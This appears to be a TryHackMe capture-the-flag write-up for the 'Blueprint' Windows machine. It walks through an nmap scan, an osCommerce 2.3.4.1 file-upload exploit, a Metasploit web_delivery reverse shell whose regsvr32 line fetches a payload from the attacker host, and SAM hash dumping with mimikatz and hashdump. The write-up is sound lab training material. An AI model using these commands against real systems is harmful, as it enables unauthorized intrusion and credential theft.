 ```yaml
---
title : "Blueprint - Write Up"
date : 2021-07-09T12:14:38+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's medium level machine."
tags : ["TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/)  | Medium  |  [user](https://tryhackme.com/p/)  |

<!--
description : "Maquina de nivel medio en TryHackMe."

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/)  | Medio  |  [user](https://tryhackme.com/p/)  |

## Reconocimiento
## Acceso inicial - Usuario


¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!
-->

## Reconn

```bash
╰─ lanfran@parrot ❯ map 10.10.17.115                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 12:02 CEST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 53.85% done; ETC: 12:05 (0:00:49 remaining)
Nmap scan report for 10.10.17.115
Host is up (0.28s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m57s, deviation: 34m37s, median: 2m01s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:5b:ac:b6:9d:0d (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-09T11:06:53+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T10:06:52
|_  start_date: 2021-07-09T10:02:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.09 seconds
```
Going to the webpage on 8080 port, we find a folder named `/oscommerce-2.3.4/` so maybe we can exploit this...

Let's use `searchsploit` to search for exploits...

```bash
╰─ lanfran@parrot ❯ searchsploit osCommerce 2.3.4.1                                                                                ─╯
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                        | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                          | php/webapps/44374.py
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
╰─ lanfran@parrot ❯ searchsploit -m 43191                                                                                          ─╯
  Exploit: osCommerce 2.3.4.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/43191
     Path: /usr/share/exploitdb/exploits/php/webapps/43191.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/lanfran/THM/blueprint/43191.py
```

Great! We downloaded the exploit for Arbitrary File Upload

## Foothold - User

Going to `http://10.10.17.115:8080/oscommerce-2.3.4/catalog/install/install.php` 

We can create a new installation, i used the following credentials:

![User](user.png)

After waiting a while, I used the credentials `admin:password` to configure the server.

```bash
╰─ lanfran@parrot ❯ python 43191.py -f shell_online.php -u http://10.10.17.115:8080/oscommerce-2.3.4 --auth=admin:password            ─╯
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 1
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file shell_online.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.17.115:8080/oscommerce-2.3.4/catalog/admin/shell_online.php
```

Great! Let's use `metasploit` to get a reverse shell.

```bash
msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/script/web_delivery) > set SERVHOST 10.10.17.115
SERVHOST => 10.10.17.115
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 3
target => 3
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.9.1.222:4444 
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/bCkvAgou9kpSIQ
[*] Local IP: http://192.168.1.254:8080/bCkvAgou9kpSIQ
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://10.9.1.222:8080/bCkvAgou9kpSIQ.sct scrobj.dll
[*] 10.10.17.115     web_delivery - Handling .sct Request
[*] 10.10.17.115     web_delivery - Delivering Payload (1900 bytes)
[*] Sending stage (175174 bytes) to 10.10.17.115
[*] Meterpreter session 1 opened (10.9.1.222:4444 -> 10.10.17.115:49441) at 2021-07-09 12:34:45 +0200

msf6 exploit(multi/script/web_delivery) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ BLUEPRINT  10.9.1.222:4444 -> 10.10.17.115:49441 (10.10.17.115)
```
Woohoo!!! We got a shell with `NT AUTHORITY\SYSTEM`!!

It's max privileged user on Windows.

So let's create a `shell` to read our flag.

```bash
meterpreter > shell
Process 4748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{[REDACTED]}
```

## "Lab" user NTML hash decrypted

To dump the hashes you can use `kiwi`, ot `hashdump`

- With kiwi:
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: [REDACTED]
```
- With hashdump
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
```
And crack the hash with [crackstation](https://crackstation.net/)